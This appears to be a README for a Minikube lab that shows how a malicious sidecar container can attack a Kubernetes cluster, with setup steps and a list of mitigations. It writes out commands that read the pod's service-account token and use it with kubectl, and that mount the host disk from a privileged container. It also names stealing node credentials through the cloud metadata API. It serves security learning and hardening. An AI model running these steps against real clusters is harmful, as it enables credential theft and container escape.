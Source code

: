 # Attacking cluster from malicious sidecar

## Minikube setup

- Install minikube
- Start with network plugin

```bash
minikube start --network-plugin=cni --cni=calico
```

## Cluster setup

- Build the sidecar

```bash
docker build . -t malicious-sidecar
```

- Setup the cluser

```bash
kubectl apply -f cluster/
```

- Check pods are healthy with

```bash
kubectl get pods
```

- Jump to sidecar terminal with

```bash
kubectl exec --stdin --tty <insert-pod-name> -c sidecar-container -- /bin/bash
```

Or simply

```bash
kubectl get pods -l app=simple-webapp -o name | rg "pod/" -r "" | head -n 1 | xargs -o -J % kubectl exec -it % -c sidecar-container -- /bin/bash
```

## Attack vectors

### Kubernetes service account

- Service account in `/run/secrets/kubernetes.io/serviceaccount` (token, namespace, cert)

Running `kubectl` with the service account

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server=https://192.168.65.4:6443 auth can-i --list
```

### Mount host (priviledged=true)

<https://www.optiv.com/insights/source-zero/blog/kubernetes-attack-surface>

Find disks from /proc folder. I found `/dev/vda1` from `/proc/mounts` file.

```bash
mount /dev/vda1 /mnt-test/
```

### Cloud metadata API, and expanding attack to other cloud services

- Get Node credentials

## Mitigations

- Own service account for sidecar
- Disallow hostNetwork, hostPID, hostIPC, privileged, host-root
- TODO:
  - Network policies (egress rules, pods should not have access to places they do not need)
  - Pod security
    - Volume whitelists (no root volumes)
    - Root limits (no priviledge, container user?)
    - AppArmor
